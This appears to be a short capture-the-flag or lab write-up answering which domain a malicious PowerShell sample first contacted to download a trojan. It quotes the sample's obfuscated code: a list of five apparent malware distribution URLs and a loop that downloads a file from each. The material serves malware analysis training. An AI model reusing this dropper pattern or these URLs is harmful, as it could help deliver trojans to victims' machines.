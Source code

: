 #### Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.
- In line 
```
$jacleewyiqu='https://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*https://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*http://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*http://holfve.se/images/1ckw5mj49w_2k11px_d/*http://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);
```
- Multiple domains were contacted to download a trojan with 
```
foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);
```
> Answer : haoqunkong.com








